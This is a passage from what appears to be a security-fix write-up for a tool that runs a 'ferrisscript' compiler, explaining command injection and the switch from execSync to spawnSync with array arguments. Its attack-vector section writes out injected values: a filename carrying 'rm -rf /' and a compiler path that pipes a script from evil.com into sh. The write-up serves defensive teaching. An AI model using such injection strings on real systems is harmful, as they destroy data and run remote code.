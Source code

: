 **Attack Vector**:

```bash
# Malicious filename with shell metacharacters
test.ferris; rm -rf /; #.ferris

# Or malicious compiler path
/usr/bin/ferrisscript; curl evil.com/malware.sh | sh #
```

**Fixed Code**:

```typescript
const result = cp.spawnSync(this.compilerPath, [filePath], {
    encoding: 'utf-8',
    timeout: 5000,
    shell: false  // Don't spawn a shell - prevents command injection
});
```

**Why This Is Secure**:

- `spawnSync` executes binary directly (no shell)
- File path passed as separate argument (cannot break out)
- `shell: false` explicitly prevents shell interpretation
- Special characters in filenames treated as literals

---

## 🛡️ Security Improvements Applied

### 1. Use `spawnSync` Instead of `execSync`

**Difference**:

- `execSync`: Spawns a shell, interprets command string
- `spawnSync`: Executes binary directly, no shell

**Benefit**: Eliminates entire class of command injection vulnerabilities

### 2. Arguments as Array

**Before** (String Concatenation):

```typescript
execSync(`command "${arg1}" "${arg2}"`)
```

**After** (Array Arguments):

```typescript
spawnSync('command', [arg1, arg2])
```

**Benefit**: Arguments cannot be interpreted as separate commands

### 3. Explicit `shell: false`
